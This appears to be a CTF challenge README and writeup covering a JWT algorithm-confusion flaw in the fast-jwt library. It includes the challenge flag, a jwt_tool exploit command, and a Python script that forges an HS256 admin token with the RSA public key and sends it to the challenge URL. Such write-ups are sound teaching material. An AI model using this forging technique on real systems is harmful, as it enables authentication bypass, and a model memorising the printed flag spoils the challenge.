






## Description
Bruh, Tanjiro messed up BIG TIME. 😭 He hid Goku’s summoning scroll somewhere on this cursed website, and now it’s all broken. 💀 If we don’t find it fast, Goku’s never showing up, and we’re all doomed. No cap, this might be the hardest quest yet. Think you got what it takes? 👀🔥   Can you wield your skills like Tanjiro’s blade and break through the encrypted defenses? 

- **Author:** [Afdul]  
- **Flag:** `apoorvctf{qWe_jwt_qWe}`  

## Setup Instructions
1. Build and run the challenge using:  
   ```sh
   docker build -t my-app .
   docker run -d -p 3000:3000 --name my-container my-app


    ```

## Writeup
The challenge is based on a known vulnerability is fast-jwt library.
The publicKeyPemMatcher function in fast-jwt/src/crypto.js does not correctly recognize all standard PEM formats for public keys. This flaw allows an attacker to generate a malicious JWT token using the HS256 algorithm, signed with the victim application's RSA public key. The attack is successful only if the victim application relies on a public key formatted with the BEGIN RSA PUBLIC KEY header.

### Steps to solve the challenge:
1. Extract the public key from ```/public``` url.

2. Notice that /login generates a random token which is a JWT token.

3. Use the public key to decrypt the token and verify the public key.

4. The header shows that the algorithm is RS256 which validates Asymmetric key cryptography, Notice the payload contains admin false , If we can change that value to true we should be all set, However altering it would mess with the signature and fail the verification check.

5. We can use the vulnerability in the fast-jwt library to generate a new token with the same signature as the original token but with the payload altered to admin true.
The library is vulnerable to a known attack that allows an attacker to generate a malicious JWT token using the HS256 algorithm, signed with the victim application's RSA public key.
6. Use a tool like jwt_tool to generate the new token.
```sh
    python3 jwt_tool.py  --exploit k -pk ../public_key.pem token
```

7. Use the new token as a query parameter in the /admin url to get the flag.
```sh
    curl http://localhost:3000/admin?token=eyJ
```

8. The flag is displayed on the screen.
```sh
    apoorvctf{qWe_jwt_qWe}
```

## Faster Solution
``` python
import jwt
import datetime

public_key = open("key.pem").read()
issued_at = int(datetime.datetime.utcnow().timestamp()) 
payload = {
    "admin": True,
    "name": "admin",
    "iat": issued_at
}

# Note this will give an error cuz jwt checks hs256 dosent use public key, a solution is to just remove the raise error from the library
jwt_token = jwt.encode(payload, public_key, algorithm="HS256")

print(f"Generated JWT: {jwt_token}")


import requests
url = "https://tan-je-ro.onrender.com/admin?token=" + jwt_token

print(f"Sending request to {url}")
response = requests.get(url)
print(f"Response: {response.text}")

```

And that's it! You have successfully solved the challenge. 🎉🎉🎉
```

